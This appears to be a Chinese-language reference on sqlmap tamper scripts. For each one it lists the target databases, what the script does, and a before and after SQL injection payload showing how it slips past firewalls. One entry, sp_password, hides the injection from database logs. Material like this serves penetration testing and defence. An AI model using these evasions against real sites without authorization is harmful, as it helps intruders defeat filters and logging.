 #### **securesphere.py**

适用数据库：ALL 
作用：追加特定的字符串 
使用脚本前：`tamper('1 AND 1=1')` 
使用脚本后：`1 AND 1=1 and '0having'='0having'`

#### **space2dash.py**

适用数据库：ALL 
作用：将空格替换为`--`，并添加一个随机字符串和换行符 
使用脚本前：`tamper('1 AND 9227=9227')` 
使用脚本后：`1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227`

#### **space2mssqlblank.py**

适用数据库：Microsoft SQL Server 
测试通过数据库：Microsoft SQL Server 2000、Microsoft SQL Server 2005 
作用：将空格随机替换为其他空格符号`('%01', '%02', '%03', '%04', '%05', '%06', '%07', '%08', '%09', '%0B', '%0C', '%0D', '%0E', '%0F', '%0A')` 
使用脚本前：`tamper('SELECT id FROM users')` 
使用脚本后：`SELECT%0Eid%0DFROM%07users`

#### **between.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：用`NOT BETWEEN 0 AND #`替换`>` 
使用脚本前：`tamper('1 AND A > B--')` 
使用脚本后：`1 AND A NOT BETWEEN 0 AND B--`

#### **percentage.py**

适用数据库：ASP 
测试通过数据库：Microsoft SQL Server 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0 
作用：在每个字符前添加一个`%` 
使用脚本前：`tamper('SELECT FIELD FROM TABLE')` 
使用脚本后：`%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E`

#### **sp_password.py**

适用数据库：MSSQL 
作用：从T-SQL日志的自动迷糊处理的有效载荷中追加sp_password 
使用脚本前：`tamper('1 AND 9227=9227-- ')` 
使用脚本后：`1 AND 9227=9227-- sp_password`

#### **charencode.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：对给定的payload全部字符使用url编码（不处理已经编码的字符） 
使用脚本前：`tamper('SELECT FIELD FROM%20TABLE')` 
使用脚本后：`%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45`

#### **randomcase.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：随机大小写 
使用脚本前：`tamper('INSERT')` 
使用脚本后：`INseRt`
